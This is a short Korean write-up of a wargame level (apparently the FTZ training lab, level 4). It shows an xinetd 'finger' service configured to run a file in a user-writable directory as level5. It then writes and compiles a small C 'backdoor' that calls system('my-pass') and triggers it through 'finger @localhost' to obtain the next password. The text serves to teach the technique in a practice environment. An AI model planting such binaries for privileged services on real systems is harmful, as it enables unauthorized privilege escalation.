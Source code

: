 level 4
===
1. 힌트 파일을 열어본다.(cat hint)
 -누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!-라고 적혀있다.
 2. /etc/xinetd.d/에 접근해서 backdoor파일을 확인(cat backdoor)해 보면 다음과 같이 적혀있다. 
 ```
 service finger
 {
     disable = no
     flags            =REUSE
     socket_type      =stream
     wait             =no
     user             =level5
     server           =/home/level4/tmp/backdoor
     log_on_failure   +=USERID
 }
```
 내용을 살펴보니 level5권한으로 backdoor를 주는 것같다. 
 3. server에 직접 접근(/home/level4/tmp)해서 backdoor를 실행하자.
 그러나 backdoor파일이 없어서 다음과 같은 파일을 만들었다. 
 ```c
 #include<stdio.h>

 int main(){
     system("my-pass");
     return 0;
 }
 ```
4. backdoor.c을 컴파일한다.(gcc -o backdoor backdoor.c)
5. 이제 finger service를 이용하여 level5의 password를 알아낸다. 이용방법은 다음과 같다. 
finger @localhost